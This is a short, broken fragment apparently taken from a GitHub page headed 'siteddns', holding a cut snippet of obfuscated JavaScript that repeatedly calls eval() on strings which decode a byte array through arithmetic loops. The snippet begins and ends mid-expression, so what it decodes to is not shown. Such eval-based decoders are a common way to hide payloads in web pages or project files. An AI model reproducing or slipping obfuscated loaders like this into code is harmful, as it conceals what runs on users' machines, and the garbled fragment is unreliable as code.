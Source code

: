  # siteddns
=2);";eval(go);go=45;while(go>=4){eo[go]=(eo[go]+eo[go-1])&0xff;go--;}go="for(go=4;;){if(go>43)break;eo[go]=(eo[go]-eo[go+1])&0xff;go++;}";eval(go);fo="";for(go=1;go
